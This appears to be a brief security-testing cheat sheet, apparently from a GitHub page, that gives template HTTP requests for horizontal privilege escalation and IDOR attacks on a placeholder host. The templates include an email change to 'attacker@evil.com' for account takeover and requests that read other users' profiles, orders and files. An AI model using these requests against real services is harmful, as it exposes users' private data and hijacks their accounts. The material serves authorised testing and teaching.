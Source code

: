 
## Horizontal Privilege Escalation

### User ID Switching
```http
GET /api/user/profile?user_id=67890 HTTP/1.1
Host: target.com
Cookie: session=user123_session
```

### Account Takeover via Email Change
```http
PUT /api/account/email HTTP/1.1
Host: target.com
Content-Type: application/json
Authorization: Bearer user_token

{
  "new_email": "attacker@evil.com"
}
```

### Order Details Access
```http
GET /api/orders/5678 HTTP/1.1
Host: target.com
Cookie: session=user123_session
```

---

## IDOR Techniques

### Direct Object Reference
```http
GET /download?file=user789_secret.docx HTTP/1.1
Host: target.com
Cookie: session=user123_session
```

### Batch IDOR Request
```http
POST /api/batchUsers HTTP/1.1
Host: target.com
Content-Type: application/json

{
  "user_ids": ["123", "456", "789"]
}
```
